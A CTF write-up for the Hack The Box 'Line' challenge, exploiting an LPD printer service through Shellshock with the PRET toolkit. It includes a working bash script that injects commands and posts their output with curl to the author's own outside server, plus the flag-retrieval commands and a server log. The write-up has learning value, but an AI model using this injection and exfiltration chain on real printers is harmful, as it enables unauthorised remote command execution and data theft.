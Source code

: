 ```yaml
---
layout: newpost
title: "Writeup: HTB Challenge Line"
date: 2025-01-26
categories: [tech]
tags: [htb, ctf, hardware]
---
```


- Challenge: [Line](https://app.hackthebox.com/challenges/Line)
- Category: Hardware
- Solve date: 26 Jan 2025

---

### Description
> During an architectural review of printers on our network, we found an LPD protocol implementation running on a network printer. Can you help in auditing this service?

### Provided files
- n/a

---
# What is "LPD"?

> The **Line Printer Daemon protocol/Line Printer Remote protocol** (or **LPD**, **LPR**) is a network [printing protocol](https://en.wikipedia.org/wiki/Printing_protocol "Printing protocol") for submitting print jobs to a remote printer.

---

# Finding the exploit

Searching for "lpd github exploit" leads us to [PRET](https://github.com/RUB-NDS/PRET) which contains some interesting scripts for us to use. Since LPD is normally don't have any authentication we can just go ahead and exploit. In the help page they mention CVE-2014-6271, a.k.a. [shellshock](https://www.cisa.gov/news-events/alerts/2014/09/25/gnu-bourne-again-shell-bash-shellshock-vulnerability-cve-2014-6271):

`lpdtest.py --port $port $ip in '() {:;}; COMMAND'`

---

## Exploit code

After messing around with the command I ended up with first writing all output to a file in `/tmp` and then sending a POST request to my [own web server]({{site.baseurl}}/blog/tech/flask-c2/):

```py
#!/bin/bash
cmd=$1
host="83.136.250.116:44892"
ip=$(echo $host | cut -d':' -f1)
port=$(echo $host | cut -d':' -f2)
echo "IP: $ip"
echo "PORT: $port"
echo "CMD: $cmd"
echo ""

if [ "$2" == "simple" ]; then
	python3 /home/thorn/git/PRET/lpd/lpdtest.py --port $port $ip in '() {:;};'"$cmd"' | xargs curl htb.thoren.life:13337/test -H "Content-Type: text/plain" -d $1'
else
	echo "Writing output to /tmp/out.txt and sending it to the server.."
	python3 /home/thorn/git/PRET/lpd/lpdtest.py --port $port $ip in '() {:;};'"$cmd"' > /tmp/out.txt 2>&1'
	python3 /home/thorn/git/PRET/lpd/lpdtest.py --port $port $ip in '() {:;};curl htb.thoren.life:13337/test -H "Content-Type: text/plain" --data "@/tmp/out.txt" '
fi
```

## Getting the flag

1. `./go.sh "find / -name flag.txt"`
2. Flask logs shows us the `flag.txt` is in the `/opt` directory
3. `./go.sh "cat /opt/flag.txt"`

Flask log:
```sh
2025-01-26 17:32:41,112 - INFO - [+] Payload:
HTB{l00t..}
2025-01-26 17:32:41,112 - INFO - 83.136.250.116 - - [26/Jan/2025 17:32:41] "POST /test HTTP/1.1" 200 -
```